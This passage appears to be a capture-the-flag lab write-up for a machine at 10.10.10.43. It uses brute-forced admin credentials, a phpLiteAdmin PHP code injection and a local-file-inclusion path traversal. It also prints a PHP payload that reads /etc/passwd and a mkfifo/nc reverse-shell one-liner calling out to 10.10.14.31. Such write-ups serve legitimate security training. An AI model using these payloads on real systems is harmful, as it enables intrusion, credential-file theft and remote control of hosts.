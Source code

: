 	[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
	```
	- `admin:password123`
3. Search exploits for `phpLiteAdmin`

	| Exploit Title                                  | Path                  |
	| ---------------------------------------------- | --------------------- |
	| PHPLiteAdmin 1.9.3 - Remote PHP Code Injection | php/webapps/24044.txt |
4. Try `php/webapps/24044.txt`
	1. How does the exploit work?
		- An attacker is able to create a Database w/ a php extension and insert PHP code as text fields in the Database, by accessing the file, PHP code is executed.
	2. Create a new database called `ninevehNotes.php`
		![]({{ page.img_path }}Pasted%20image%2020220824025746.png)
		- Only files that are named `ninevehNotes.<any ext>` will be processed
	3. Create table called `RCE`
		![]({{ page.img_path }}Pasted%20image%2020220824025903.png)
	4. Add field `name` w/ a default value of a PHP Code to read `/etc/passwd`
		```
		Default Value
		<?php system("cat /etc/passwd");?>
		```
		![]({{ page.img_path }}Pasted%20image%2020220824030125.png)
	5. View location of database
		![]({{ page.img_path }}Pasted%20image%2020220824030623.png)
		- `/var/tmp/ninevehNotes.php`
	6. We will head back to the LFI exploit

## TCP/80 (HTTP) - LFI2RCE
1. Include  `/var/tmp/ninevehNotes.php`, it works!
	```
	# Current Dir
	/var/www/html/department
	
	# ninevehNotes.php location
	/var/tmp/ninevehNotes.php
	
	# Payload
	/manage.php?notes=../../../tmp/ninevehNotes.php
	
	1. ../../../         : goes back 3 dir        = /var
	2. /tmp/files        : cd into /tmp           = /var/tmp/
	3. ninevehNotes.php  : the file we want      
	```
	![]({{ page.img_path }}Pasted%20image%2020220824031110.png)
2. Create another table called `RCE2`
	![]({{ page.img_path }}Pasted%20image%2020220824031413.png)
3. Add field `name` w/ a default value of a PHP Code to invoke a reverse shell
	```
	<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.31 4444 >/tmp/f");?>
	```
	![]({{ page.img_path }}Pasted%20image%2020220824031407.png)
4. Start listener
5. Execute reverse shell by including `ninevehNotes.php`
6. Shell obtained